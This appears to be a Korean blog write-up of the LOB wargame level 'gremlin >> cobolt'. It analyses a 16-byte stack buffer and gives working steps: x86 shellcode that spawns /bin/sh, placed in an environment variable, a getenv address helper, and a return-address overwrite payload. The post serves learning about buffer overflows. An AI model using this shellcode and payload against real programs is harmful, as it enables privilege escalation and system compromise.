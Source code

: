 ```yaml
---
title:  "[LOB] level 2: gremlin >> cobolt "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-21 06:27:10

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 2

**gremlin / hello bof world**

cobolt.c 코드 확인부터  
![image](https://user-images.githubusercontent.com/69203345/146878533-f4a51f12-fbdd-45e6-be3e-31902dac5205.png)

buf에 16바이트 할당  
level1과 할당량이 달라짐  
나머지는 똑같다

그럼 스택 확인  
![image](https://user-images.githubusercontent.com/69203345/146879063-5bb0713d-0a8a-4522-8c9c-a4119502828f.png)

0x8048433 <main+3>: sub %esp,16
스택크기 16

낮은주소

buf[16] [ebp-16]
sfp[4]  
ret[4]

높은주소

환경변수설정, 41바이트 쉘코드 사용  
> export EGG=\`python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`  
> echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); } ' > getenv.c  
> gcc getenv.c -o getenv

![image](https://user-images.githubusercontent.com/69203345/146881719-47d92245-7e34-418c-85c3-9671a541f4c9.png)
나온 주소를 이용해서 페이로드 작성  
> \`python -c 'print "a"*20+"\x8d\xfe\xff\xbf"'`

![image](https://user-images.githubusercontent.com/69203345/146881913-87b3003f-baf0-4ad9-b6e9-b35ed3884ebe.png)